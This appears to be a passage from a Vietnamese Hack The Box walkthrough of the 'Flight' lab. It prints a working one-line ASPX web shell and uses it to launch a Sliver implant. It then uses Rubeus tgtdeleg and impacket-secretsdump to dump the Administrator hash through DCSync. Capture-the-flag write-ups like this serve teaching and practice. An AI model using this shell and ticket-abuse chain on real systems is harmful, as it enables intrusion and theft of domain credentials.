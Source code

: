 ```
<%@Page Language="C#"%><%var p=new System.Diagnostics.Process{StartInfo={FileName=Request["c"],UseShellExecute=false,RedirectStandardOutput=true}};p.Start();%><%=p.StandardOutput.ReadToEnd()%>
```

![alt text](image-30.png)

Bây giờ, có thể kích hoạt implant Sliver từ trình duyệt bằng cách truy cập URL sau với proxy SOCKS được bật.

```
http://127.0.0.1:8000/shell.aspx?c=C:\users\public\music\htb.exe
```

![alt text](image-31.png)

Có một session mới là "user" `IIS APPPOOL\DefaultAppPool`. "User" này thực chất là một Microsoft Virtual Account và theo Microsoft:

```
Các dịch vụ chạy dưới virtual account sẽ truy cập tài nguyên mạng bằng cách sử dụng thông tin đăng nhập của computer account theo định dạng <domain_name>\<computer_name>$.
```

Điều này có nghĩa là có thể sử dụng Rubeus (https://github.com/GhostPack/Rubeus) từ session hiện tại để yêu cầu một ticket cho chính mình (machine account) và thực hiện một cuộc tấn công DCSync.

Trên thực tế, `armory` đi kèm với `sliver` có một module `Rubeus` giúp khai thác dễ dàng hơn một chút. Trước hết, phải cài đặt module.

```
sliver > armony install rubeus
```

Sau đó, có thể thực thi nó trên session hiện tại như cách thực hiện với chính file binary.

```
rubeus tgtdeleg /nowrap
```

![alt text](image-32.png)

Bây giờ đã có ticket hợp lệ cho machine account, cần chuyển đổi ticket từ định dạng `base64 - kirbi` sang `ccache` để sử dụng với impacket. Để chuyển đổi, ghi ticket output vào file có tên `ticket.b64` và sau đó thực hiện chuỗi lệnh sau để lấy hash của Administrator.

```
cat ticket.b64 | base64 -d > ticket.kirbi

kirbi2ccache ticket.kirbi ticket.ccache

sudo ntpdate -u flight.htb

KRB5CCNAME=ticket.ccache impacket-secretsdump -k -no-pass g0.flight.htb -just-dc-user Administrator -target-ip 10.129.42.88
```

```
Lưu ý lệnh ntpdate để đồng bộ hóa đồng hồ máy local với đồng hồ của DC. Một bước cần thiết vì sẽ sử dụng xác thực Kerberos.
```
